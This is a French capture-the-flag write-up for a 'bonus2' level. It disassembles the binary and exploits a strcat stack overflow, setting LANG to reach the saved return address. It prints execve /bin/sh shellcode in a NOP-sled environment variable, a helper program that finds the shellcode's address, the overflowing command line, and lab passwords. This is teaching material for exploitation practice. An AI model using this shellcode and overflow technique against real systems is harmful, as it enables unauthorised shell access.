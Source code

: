 On se connecte sur le bonus2, ou se trouve un **binaire** <code>bonus2</code>.

On cherche a savoir ce que fait ce binaire:

```gdb
> gdb -q bonus2
Dump of assembler code for function main:
   0x08048529 <+0>:     push   %ebp
   0x0804852a <+1>:     mov    %esp,%ebp
   0x0804852c <+3>:     push   %edi
   0x0804852d <+4>:     push   %esi
   0x0804852e <+5>:     push   %ebx
   0x0804852f <+6>:     and    $0xfffffff0,%esp
   0x08048532 <+9>:     sub    $0xa0,%esp
   0x08048538 <+15>:    cmpl   $0x3,0x8(%ebp)
   0x0804853c <+19>:    je     0x8048548 <main+31>
   0x0804853e <+21>:    mov    $0x1,%eax
   0x08048543 <+26>:    jmp    0x8048630 <main+263>
   0x08048548 <+31>:    lea    0x50(%esp),%ebx
   0x0804854c <+35>:    mov    $0x0,%eax
   0x08048551 <+40>:    mov    $0x13,%edx
   0x08048556 <+45>:    mov    %ebx,%edi
   0x08048558 <+47>:    mov    %edx,%ecx
   0x0804855a <+49>:    rep stos %eax,%es:(%edi)
   0x0804855c <+51>:    mov    0xc(%ebp),%eax
   0x0804855f <+54>:    add    $0x4,%eax
   0x08048562 <+57>:    mov    (%eax),%eax
   0x08048564 <+59>:    movl   $0x28,0x8(%esp)
   0x0804856c <+67>:    mov    %eax,0x4(%esp)
   0x08048570 <+71>:    lea    0x50(%esp),%eax
   0x08048574 <+75>:    mov    %eax,(%esp)
   0x08048577 <+78>:    call   0x80483c0 <strncpy@plt>
   0x0804857c <+83>:    mov    0xc(%ebp),%eax
   0x0804857f <+86>:    add    $0x8,%eax
   0x08048582 <+89>:    mov    (%eax),%eax
   0x08048584 <+91>:    movl   $0x20,0x8(%esp)
   0x0804858c <+99>:    mov    %eax,0x4(%esp)
   0x08048590 <+103>:   lea    0x50(%esp),%eax
   0x08048594 <+107>:   add    $0x28,%eax
   0x08048597 <+110>:   mov    %eax,(%esp)
   0x0804859a <+113>:   call   0x80483c0 <strncpy@plt>
   0x0804859f <+118>:   movl   $0x8048738,(%esp)
   0x080485a6 <+125>:   call   0x8048380 <getenv@plt>
   0x080485ab <+130>:   mov    %eax,0x9c(%esp)
   0x080485b2 <+137>:   cmpl   $0x0,0x9c(%esp)
   0x080485ba <+145>:   je     0x8048618 <main+239>
   0x080485bc <+147>:   movl   $0x2,0x8(%esp)
   0x080485c4 <+155>:   movl   $0x804873d,0x4(%esp)
   0x080485cc <+163>:   mov    0x9c(%esp),%eax
   0x080485d3 <+170>:   mov    %eax,(%esp)
   0x080485d6 <+173>:   call   0x8048360 <memcmp@plt>
   0x080485db <+178>:   test   %eax,%eax
   0x080485dd <+180>:   jne    0x80485eb <main+194>
   0x080485df <+182>:   movl   $0x1,0x8049988
   0x080485e9 <+192>:   jmp    0x8048618 <main+239>
   0x080485eb <+194>:   movl   $0x2,0x8(%esp)
   0x080485f3 <+202>:   movl   $0x8048740,0x4(%esp)
   0x080485fb <+210>:   mov    0x9c(%esp),%eax
   0x08048602 <+217>:   mov    %eax,(%esp)
   0x08048605 <+220>:   call   0x8048360 <memcmp@plt>
   0x0804860a <+225>:   test   %eax,%eax
   0x0804860c <+227>:   jne    0x8048618 <main+239>
   0x0804860e <+229>:   movl   $0x2,0x8049988
   0x08048618 <+239>:   mov    %esp,%edx
   0x0804861a <+241>:   lea    0x50(%esp),%ebx
   0x0804861e <+245>:   mov    $0x13,%eax
   0x08048623 <+250>:   mov    %edx,%edi
   0x08048625 <+252>:   mov    %ebx,%esi
   0x08048627 <+254>:   mov    %eax,%ecx
   0x08048629 <+256>:   rep movsl %ds:(%esi),%es:(%edi)
   0x0804862b <+258>:   call   0x8048484 <greetuser>
   0x08048630 <+263>:   lea    -0xc(%ebp),%esp
   0x08048633 <+266>:   pop    %ebx
   0x08048634 <+267>:   pop    %esi
   0x08048635 <+268>:   pop    %edi
   0x08048636 <+269>:   pop    %ebp
   0x08048637 <+270>:   ret
End of assembler dump.
```

Après analyse du fichier (**source.c**), on se rend compte que l'exploitation du fichier se fera par la fonction **strcat**.

Si la langue est set a 0 pendant l'overflow, seule la moitié de l'eip sera écrasée suite à la concaténation du **strcat**, on va donc devoir changer la langue pour pouvoir concaténer avec une chaine plus grande et écraser la totalité de l'eip.

> Si **LANG**=fi : **OFFSET** = 18  
> Si **LANG**=nl : **OFFSET** = 23

```shell
export LANG=fi
OU
export LANG=nl
```

On n'a pas la place dans la str pour utiliser une méthode ret2libc, donc on se tourne vers un shellcode:

```shell
export SHELLCODE=$(python -c "print '\x90'*100 + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'")

echo "#include <stdio.h>
#include <stdlib.h>
int main(){ printf(\"SHELL= %p\n\", getenv(\"SHELLCODE\")); return 0; }" > /tmp/getsh.c

cd /tmp/
gcc getsh.c
./a.out
SHELL= \x\x\x\x
cd
```
> On utilise donc le programme avec le premier argument plein, le second qui applique l'offset et l'adresse du shellcode.

(on utilise LANG=nl dans cet exemple)
<pre><code>./bonus2 $(python -c 'print "A" * 50') $(python -c 'print "B" * OFFSET + "\x\x\x\x"')
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBm���
> cd ../bonus3 && cat .pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
</code></pre>

For download :
<pre><code>scp -P4242 bonus2@IP:bonus2 .</code></pre>
> Password : 579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245